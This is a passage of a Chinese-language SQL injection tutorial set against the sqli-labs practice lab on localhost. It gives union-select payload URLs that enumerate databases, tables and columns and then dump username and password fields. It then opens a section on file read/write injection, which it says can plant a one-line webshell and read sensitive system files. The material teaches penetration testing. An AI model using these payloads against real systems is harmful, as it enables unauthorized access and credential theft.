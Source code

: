 **注入流程与正常的手工注入流程差不多**

​	

### 查询所有数据库名称

![](https://pic.imgdb.cn/item/64c1e59c1ddac507cc84eff2.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

​	

### 查询数据库对应的表名

![](https://pic.imgdb.cn/item/64c1e6af1ddac507cc867e76.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(table_name),3 from%20information_schema.tables where table_schema=test
```

​	

### 查询表名对应的字段名

![](https://pic.imgdb.cn/item/64c1e6bf1ddac507cc8695d7.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=t1
```

​	

### 查询数据

![](https://pic.imgdb.cn/item/64c1e6d01ddac507cc86a965.jpg)

```
http://localhost/sqli-labs-master/Less-2/?id=-2 union select 1,name,pass from test.t1
```

​	

​	

# SQL注入—文件读写注入

## 读写注入的原理

利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。
